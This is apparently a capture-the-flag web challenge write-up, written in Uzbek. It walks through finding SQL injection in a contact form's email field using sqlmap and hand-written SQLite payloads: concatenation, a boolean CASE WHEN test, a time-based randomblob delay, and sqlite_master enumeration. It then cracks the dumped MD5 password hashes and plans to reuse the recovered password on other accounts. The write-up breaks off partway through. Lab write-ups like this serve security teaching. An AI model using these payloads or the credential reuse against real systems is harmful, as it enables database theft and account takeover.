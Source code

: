 # Write your report

## Challenge info

```text
Level: Hard
Category: Web

Tavsif:
Tizimda emas, hisobotda zaiflik topish kerak
```

## Solution
1) Directory fuzzing qilish, Contact qismida XSS sinab ko'rganimizdan keyin bitta kichkina quote kiritib ko'rsak zarar qilmaydi Contactdagi email yoki message parametrlariga:

![image](https://github.com/user-attachments/assets/43581ffd-bd75-4939-8f9b-fa4e499b819e)

Booom! Bu degani SQL injection bo'lishi mumkin email parametrida..

2) Birinchi yo'li vaqtni ketkizib o'tirmasdan sqlmap ishlatsak bo'ladi:
```
sqlmap -r raw.txt -p email  --level=3
```
raw.txt ichida request yoziladi:
![image](https://github.com/user-attachments/assets/fcb82c16-d3e1-4f53-bb2a-5b5e6c29dfdc)

3) Sqlmap bilan table nomlarini olib, users table dan hamma ma'lumotni dump qilib olamiz:

![image](https://github.com/user-attachments/assets/a9eee3ae-c2f7-4035-bd04-1e45e18132e6)
Demak tizimda 4 ta user bor 4 xil role bilan, role nomlari user nomlariga to'g'ri kelmayapti lekin qiziq...
![image](https://github.com/user-attachments/assets/c4df5fb3-47e6-47fd-b17d-a780634b6041)
4) Lekin menga manual payload yozish qiziq, demak DBMS SQLite, bu degani backendda taxminan shunday Query foydalanilyapti (Backendni o'zim yozganimda ham baribir boshqa joyda bo'lganda taxminan shunday bo'lishi aniq, shunga taxmin qilinyapti):
```
INSERT INTO contacts (email, message) VALUES ('test@gmail.com', 'test yozuv');
```
Biz kiritgan payload shu Quote ichiga kiritiladi,
```
INSERT INTO contacts (email, message) VALUES ('test@gmail.com', 'test yozuv');
                                                    ^
```
Bu degani bizda Challenge ichida Challenge, VALUES () ni ichidan escape qilish kerak, oddiy boshqa DBMS lardagiga o'xshab escapge qilishga harakat qildim:
```
INSERT INTO contacts (email, message) VALUES ('test@gmail.com', '1'-- - ', 'test yozuv');
```
Maqsad VALUESdagi ') ni yopishimiz kerak, ```', '1'-- - ``` shu uchun kerak oldingi Quoteni yopib, ikkinchi columnga o'zimizni 1 ni kiritib undan keyingi yozuvni Commentga olish. Lekin baribir o'xshamadi, ohiri ) ni yopish o'rniga VALUES () ni ichida Substringga o'xshash Query ishlatish yo'li chiqib qoldi:

```
'||1||'
```
Bu degani:
```
INSERT INTO contacts(email, message) VALUES('' || 1 || '', ?)
```

Email uchum ```test@gmail.com || 1 || ``` yozuvi deb olsak ```||``` orqali ikkita stringni bir-biriga qo'shsak bo'ladi, bu degani "test@gmail1" ko'rinishiga keladi Email DBga yozilgan paytda. Endi

```
'|| SELECT 1 ||'
```

qilib query ishlatsak bo'ladi, teoriya bo'yicha bu error qaytarmaydi hammasi joyida. Agar bitta Quote olib tashlansa 500 javob olamiz, bu degani to'g'ri yo'ldamiz. Endi bizga Boolean based hujum kerak javob to'g'ri-noto'g'riligini bilgani:

```
' || CASE WHEN 1=1 THEN '1' ELSE '0' END || '
```

Lekin CASE WHEN dagi javob har xil bo'lsa ham Response length, status code bir xil keladi. Demak Time-based hujumga o'tishni vaqti keldi, faqat undan oldin harakat qilib ko'rgan yo'limni ko'rsataman:

```
' || CASE WHEN 1=1 THEN "'" ELSE '' END || '
```

Bu degani 1=1 True qaytaradi, keyin Query email ohiriga bitta Quote kiritadi, reja bo'yicha "email'" input DBMSda error berib menga 500 javob qaytishi kerak, lekin Ikkitalik bilan bittalik Quotelarni bitta joyda ishlatishni yo'lini topolmadim.

O'rniga bitta Quote bilan error qaytarish o'rniga uzoqroq vaqtdan keyin javob qaytarishga harakat qilsak bo'ladi ([randomblob docs](https://database.guide/how-randomblob-works-in-sqlite/)):

```
' || CASE WHEN 1=1 THEN hex(randomblob(50000000)) ELSE '' END || '
```

Ohirgi Backenddagi SQL Query shu ko'rinishga keladi:

```
INSERT INTO contacts (email, message) VALUES ('test@gmail.com' || CASE WHEN 1=1 THEN hex(randomblob(50000000)) ELSE '' END || '', 'test yozuv');
```

Information_schemaga o'xshab SQLiteda sqlite_master bor, shu yerdan table name olishimiz mumkin:
```
' || CASE WHEN
(SELECT tbl_name FROM sqlite_master WHERE type='table' LIMIT 1)='users'
THEN hex(randomblob(50000000))
ELSE ''
END || '
```

shu bilan columnlarni birma-bir fuzz qilsak bo'ladi.

5) Bizda 4ta user va parol hashlari bor MD5 ko'rinishida, crack qilsak faqat "appsecchi" uchun parol crack bo'ladi halos parol - "joyland1":

![image](https://github.com/user-attachments/assets/11001d6b-abed-4b6d-a714-394397ae3c44)

6) Lekin bu login va parol bilan kirishni iloji yo'q, dump qilingan user bilan rolega qaraydigan bo'lsak "appsechi" user uchun manager role berilgan, lekin bizda pmanager degan user bor, parolni boshqa userlarga sinab ko'rish kerak..


